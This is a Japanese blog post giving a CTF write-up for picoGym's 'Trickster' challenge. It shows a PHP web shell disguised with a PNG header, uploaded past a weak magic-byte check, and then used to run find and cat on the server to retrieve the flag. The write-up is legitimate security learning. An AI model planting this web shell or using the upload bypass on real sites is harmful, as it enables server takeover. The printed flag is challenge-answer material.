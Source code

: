 +++
author = "Hugo Authors"
title = "picoGym memo"
date = "2025-01-30"
description = ""
tags = [
    "CTF",
    "writeup",
    "picoGym",
]
categories = [
    "Security",
    "Programming",
]
image = "https://raw.githubusercontent.com/stark2420/starknote/refs/heads/main/static/image/srdnlen-ctf-2025/cover.png"
+++

常設のpicoGymに取り組んだ内容をメモしておく．
<!--more-->

## Web Exploitation
### Trickster
> I found a web app that can help process images: PNG images only!

アクセスすると，PNGファイルをアップロードできるフォームがある．
`/robots.txt`へアクセスすると，
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
とあり，`/instructions.txt`にアクセスすると，
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
とある．以上をまとめると，アップロードしたPNGファイルは`/uploads/`に置かれ，
PNGファイルの判別は，ファイル先頭の'PNG'の文字でのみ行っていると考えられる．  
したがって，PNGファイルとして偽装したphpファイルを置くことが出来そうである．  
以下の`main.png.php`ファイルを作成し，アップロードする．
{{< code lang="php" title="main.png.php" hl_lines="" >}}
PNG
<pre><?php system($_GET["cmd"]);?></pre>
{{< /code >}}

そして，`/uploads/main.png.php?cmd=find / -name '*.txt'`にアクセスする．  
すると`/var/www/html/GQ4DOOBVMMYGK.txt`というファイルを発見．
```
PNG
/usr/lib/python3.9/LICENSE.txt
/usr/local/lib/php/.channels/.alias/pear.txt
/usr/local/lib/php/.channels/.alias/pecl.txt
/usr/local/lib/php/.channels/.alias/phpdocs.txt
/usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt
/usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt
/usr/share/perl/5.32.1/Unicode/Collate/keys.txt
/usr/share/perl/5.32.1/unicore/Blocks.txt
/usr/share/perl/5.32.1/unicore/NamedSequences.txt
/usr/share/perl/5.32.1/unicore/SpecialCasing.txt
/var/www/html/GQ4DOOBVMMYGK.txt
/var/www/html/instructions.txt
/var/www/html/robots.txt
```
`/uploads/main.png.php?cmd=cat /var/www/html/GQ4DOOBVMMYGK.txt`へアクセスすると，flagが得られる．
```
PNG
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```

